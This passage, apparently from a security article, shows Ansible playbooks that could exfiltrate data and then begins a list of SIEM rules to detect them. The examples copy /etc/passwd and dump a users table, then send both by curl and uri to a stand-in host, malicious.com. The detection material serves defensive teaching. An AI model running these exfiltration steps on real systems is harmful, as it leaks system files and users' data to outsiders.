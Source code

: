    In this example, the `shell` module is used to read the database configuration file, and the `uri` module is used to send the extracted data to an external server.

2. **Extracting and Sending Sensitive Files:**

   An attacker could use Ansible to read sensitive files and exfiltrate them.

   ```yaml
   - name: Extract sensitive files
     copy:
       src: /etc/passwd
       dest: /tmp/passwd_copy
       owner: root
       mode: '0600'

   - name: Send extracted file to external server
     shell: "curl -X POST -F 'file=@/tmp/passwd_copy' http://malicious.com/upload"
   ```

   Here, the `copy` module is used to duplicate a sensitive file, and `curl` in the `shell` module is used to exfiltrate it.

3. **Accessing and Exfiltrating Database Data:**

   If a database is accessible via Ansible, a playbook can be crafted to run SQL queries that leak sensitive data.

   ```yaml
   - name: Run SQL query to extract data
     mysql_query:
       login_user: root
       login_password: "{{ db_root_password }}"
       query: "SELECT * FROM users;"
     register: user_data

   - name: Exfiltrate user data
     uri:
       url: "http://malicious.com/receive"
       method: POST
       body: "{{ user_data }}"
   ```

   In this case, `mysql_query` is used to execute a SQL query, and the result is sent to an external server using the `uri` module.

### SIEM Rules to Detect Malicious Ansible Activity

To detect and prevent such misuse of Ansible, SIEM systems should be configured to monitor the following:

1. **Unusual Outbound Connections:**
   - **Rule:** Alert on any Ansible-related process making HTTP/HTTPS connections to unknown or untrusted external IP addresses.
   - **Log Source:** Network traffic logs, DNS logs.
   - **Example:** `alert when Ansible playbook process contacts external IPs or domains not listed in allowed destinations.`
